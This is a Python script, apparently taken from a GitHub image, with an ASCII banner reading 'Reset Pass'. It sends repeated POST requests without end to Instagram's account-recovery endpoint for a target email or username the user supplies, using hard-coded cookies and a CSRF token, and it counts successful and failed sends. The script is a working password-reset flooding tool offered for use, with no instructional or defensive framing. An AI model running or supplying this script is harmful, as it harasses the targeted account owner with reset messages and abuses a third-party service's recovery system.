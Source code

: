 import requests
import time

print('''
  _____                _     _____              
 |  __ \              | |   |  __ \             
 | |__) |___  ___  ___| |_  | |__) |_ _ ___ ___ 
 |  _  // _ \/ __|/ _ \ __| |  ___/ _` / __/ __|
 | | \ \  __/\__ \  __/ |_  | |  | (_| \__ \__ \  
 |_|  \_\___||___/\___|\__| |_|   \__,_|___/___/                                                
''')

done = 0
err = 0

slee = input('[ + ] Enter Sleep [ ORIGINAL IS 1 ]: ')
email = input('[ + ] Enter Email Or Username: ')

while 1 < 2:
    url = 'https://www.instagram.com/accounts/account_recovery_send_ajax/'
    headers = {
        'accept': '*/*',
        'accept-encoding': 'gzip, deflate, br',
        'accept-language': 'en-US,en;q=0.9',
        'content-length': '101',
        'content-type': 'application/x-www-form-urlencoded',
        'cookie': 'ig_cb=2;ig_did=EA19AF2AD215-4891-ACA7-A8D1D255B13B;csrftoken=G7aKrsENKNoMigBkDxMDHmq5RtWyfepk;mid=YEfl9gAEAAGKGI_cAK6aUnBcC9Cn',
        'origin': 'https://www.instagram.com',
        'referer': 'https://www.instagram.com/accounts/password/reset/',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-origin',
        'user-agent': ': Mozilla/5.0(Windows NT 6.3; Win64;x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36',
        'x-csrftoken': 'G7aKrsENKNoMigBkDxMDHmq5RtWyfepk',
        'x-ig-app-id': '936619743392459',
        'x-ig-www-claim': '',
        'x-instagram-ajax': '',
        'x-requested-with': 'XMLHttpRequest',
    }
    data = {
        'email_or_username': f'{email}',
        'recaptcha_challenge_field': '',
        'flow': '',
        'app_id': '',
        'source_account_id': ''
    }
    time.sleep(int(slee))
    r = requests.post(url, headers=headers, data=data)
    if r.status_code == 200:
        done += 1
        print(f"\r[ + ] Sent: {done} , [x]  Error: {err}", end="")
    else:
       err += 1
       print(f"\r[ + ] Sent: {done} , [x]  Error: {err}", end="")
    if err == 5:
        print('\n[ x ] There is alot of errors , try again after 10 minutes')
        input('Press any key to exit: ')
